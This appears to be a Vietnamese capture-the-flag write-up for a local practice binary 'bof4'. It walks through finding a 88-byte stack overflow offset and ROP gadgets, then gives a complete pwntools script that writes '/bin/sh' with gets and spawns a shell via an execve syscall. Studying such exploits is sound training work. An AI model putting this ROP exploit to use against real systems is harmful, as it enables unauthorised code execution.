**1. Tìm lỗi**

Dùng lệnh file để kiểm tra file



Là file 64-bit nên mở bằng IDA64 ta có hàm main như sau:



**2. Ý tưởng**

Chương trình không có gì đặc biệt nên dùng ROPgadget để exve

**3. Viết script**



Khoảng cách từ biến đến ret là: 0x50 + 0x8 = 88



Địa chỉ câu lệnh pop rdi: 0x000000000040220e



Địa chỉ câu lệnh pop rsi: 0x00000000004015ae



Địa chỉ câu lệnh pop rdx: 0x00000000004043e4



Địa chỉ câu lệnh pop rax: 0x0000000000401001



Địa chỉ câu lệnh syscall: 0x000000000040132e



Không có chuỗi "/bin/sh" nào nên chúng ta phải tìm kiểm địa chỉ có thể lưu vào



Địa chỉ có thể write được là: 0x00406000



Vị trí còn trống để lưu chuỗi là: 0x406ba0



Địa chỉ hàm gets là: 0x401510

Ta viết được script như sau:

```
from pwn import *

r = process("./bof4")

pop_rdi = 0x000000000040220e
pop_rsi = 0x00000000004015ae
pop_rdx = 0x00000000004043e4
pop_rax = 0x0000000000401001
syscall = 0x000000000040132e
rw_section = 0x406ba0
gets = 0x401510

payload = b'a'*88
payload += p64(pop_rdi) + p64(rw_section)
payload += p64(gets)

payload += p64(pop_rdi) + p64(rw_section)
payload += p64(pop_rsi) + p64(0)
payload += p64(pop_rdx) + p64(0)
payload += b'a'*0x28
payload += p64(pop_rax) + p64(0x3b)
payload += p64(syscall)

r.sendlineafter('something',payload)
r.sendline(b'/bin/sh')
r.interactive()
```